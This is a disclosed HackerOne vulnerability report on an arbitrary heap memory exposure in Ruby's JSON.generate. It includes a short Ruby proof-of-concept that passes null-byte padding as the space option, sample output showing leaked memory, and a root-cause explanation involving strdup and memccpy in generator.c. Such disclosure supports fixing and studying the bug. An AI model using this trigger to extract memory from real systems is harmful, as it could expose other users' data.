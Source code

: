 # Arbitrary heap exposure in JSON.generate

## Report Details
- **Report ID**: 209949
- **URL**: https://hackerone.com/reports/209949
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-01T22:55:39.657Z
- **Disclosed**: 2017-09-25T12:32:43.247Z

## Reporter
- **Username**: ahmadsherif
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Running this snippet can expose arbitrary memory:
```ruby
require 'json'

state = JSON.state.new
state.space = "\0" * 1024

puts JSON.generate({a: :b}, state)
```

```
{"a":
psych/handlers/recorder.rb
tensi0
reeze)
Gem::Specification.new do |s|
  # to objects of the same type as the original delegate.
mydata/scm/git/ruby/dist/lib/ruby/2.5.0/json/ext.rb
pass the namP
See http://guides.rubygems.org/specification-reference/ for help
#     # constant and class member data initialization...
"b"}
```


The issues lies in using `strdup` in [generator.c](https://github.com/ruby/ruby/blob/trunk/ext/json/generator/generator.c#L1103), which will stop after encountering a NULL byte returning a pointer to zero length string, which is not the length stored in `space_len`. Eventually `fbuffer_append` will copy the length of the string (e.g. the 1024 above) into the generated buffer.

Simpler snippets like `JSON.generate({foo: "bar"}, space: "\0" * 1024` suffer the same issue but for slightly different reason; as `fstrndup` is using [memccpy](https://github.com/ruby/ruby/blob/trunk/ext/json/generator/generator.c#L311) which will, again, stop copying after encountering a NULL byte returning a pointer to zero length string.

## Attachments
No attachments
